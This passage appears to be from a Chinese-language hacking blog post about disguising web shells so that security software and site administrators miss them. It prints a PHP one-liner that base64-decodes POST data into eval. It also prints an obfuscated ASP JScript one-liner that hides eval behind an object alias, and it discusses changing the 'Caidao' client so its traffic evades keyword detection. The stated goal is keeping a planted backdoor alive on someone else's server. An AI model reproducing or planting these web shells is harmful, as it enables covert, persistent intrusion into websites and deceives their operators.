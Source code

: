 PHP

```
<?php
$mujj = $_POST['z'];
if($mujj!="")
{
    $xsser = base64_decode($_POST['z0']);
    @eval("\$safedg = $xsser;")
}
?>

```

效果呢，如下图：

![2013122818065476520.jpg](http://drops.javaweb.org/uploads/images/06100b60e1f5e5e4aff7a7fca45f851bf842d4de.jpg)

实测至此与Shell的连接已经不会被断了，而且以上三个一句话都支持我们亲爱的“菜刀”连接。但实际上你用菜刀是连不上的，因为安全类软件还会检测Get、Post、Cookies……的内容，菜刀Post数据包中含有太多的关键字(execute、response.write,base64_decode…… 不信你截包看一看)。这样有什么方法来突破呢？哈哈，两种方法：

一、反汇编改造“菜刀”(依然会有特征)       详见：[http://zone.wooyun.org/content/8169](http://zone.wooyun.org/content/8169)二、自己写个“菜刀”(可完全没有任何特征)   详见：[http://zone.wooyun.org/content/8137](http://zone.wooyun.org/content/8137)

```
                    代码自定义编码后发送  
菜刀(客户端)《================================》一句话(服务端)  
                   解码后执行返回(编码)数据

```

现在，我们已经可以使用“菜刀”管理有网站安全类软件的站点了，可美中不足的是依然会被提示Execute/eval/base64_decode加密。因为正常情况下很少有用到eval/execute/executeglobal……函数(有经验的管理直接搜索eval、execute、assert等，见到包含在<%%>、就删……)，那该怎么办才能忽悠住管理员让他保留我们的Shell呢？当然有答案，你可以构造一个注入或是文件上传，用到的时候再搞上自己的Shell，但我的目标是让我的一句话极具迷惑性(狗、神、盾、卫士哥不杀；管理员看不出这是一句话)。

在这种情况下，可能要面临一个艰难的决定：放弃我们的“菜刀”，客户端全部自写。把eval等关键代码全部写到标签内，因为安全类软件对标签内代码的检测较宽松，对`<%%>`、`<?php ?>`等脚本标记内代码的正则检测较为严格。像`<SCRIPT language=VBScript runat="server">`代码`</SCRIPT>`这样的之前可以用来完美“免杀”现在已经不行了，但我们还有JScript呀！所以我采用了冰狐：`<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>eval(Request.form('#')+'')</SCRIPT>`，重点对其进行改造！谁会注意LANGUAGE=JAVASCRIPT呢？

经过一番改造，最终代码如下：

```
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT> var P = Request.form('z'); var Wab = {'E' : eval}; Wab.E(P+''); </SCRIPT>

```

看一下效果吧……

![2013122818143369499.jpg](http://drops.javaweb.org/uploads/images/476108fecacb44574207acada2c207f726a50b94.jpg)

D盾已经没有任何提示了！那么该怎么用这个一句话呢？已经说过了无法使用“菜刀连接”。好吧，火狐中选post一段代码到这个一句话试试……

![2013122818151026774.jpg](http://drops.javaweb.org/uploads/images/ed5ecc322fa6b2118cb7509673dc2f557f975c88.jpg)
